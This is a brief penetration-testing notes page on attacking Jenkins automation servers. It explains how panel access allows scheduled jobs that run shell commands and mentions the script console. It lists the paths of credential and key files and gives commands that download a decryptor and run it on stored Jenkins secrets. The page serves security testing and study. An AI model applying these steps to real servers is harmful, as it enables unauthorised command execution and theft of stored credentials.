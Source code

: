 # Jenkins


[Jenkins](https://www.jenkins.io/)  – an open source automation server which enables developers around the world to reliably build, test, and deploy their software.  [Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat. It is used in Automated Build pipelines and CICD.

## Pwning Jenkins

[pwn-jenkins](https://github.com/gquere/pwn_jenkins) are Notes about attacking Jenkins servers

## Exploitation of Jenkins Panel

With access you can create schduleable jobs that accept shell commands for both Windows and Linux. 

`Dashboard -> Create a job -> Freeform project -> Configure`

May require cronjob schedule syntax even on Windows - `* * * * *` to run every minute.

`/Script` endpoint is script console

## Credential Decryption

Find
```bash
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```

With [Hoto's jenkins decryptor](https://github.com/hoto/jenkins-credentials-decryptor)
```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor

./jenkins-credentials-decryptor \
  -m master.key \
  -s hudson.util.Secret \
  -c config.xml \
  -o json
```


## References

[Jenkins Official ](https://www.jenkins.io/)  
[Wikipedia Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) 
[Hoto's jenkins decryptor](https://github.com/hoto/jenkins-credentials-decryptor)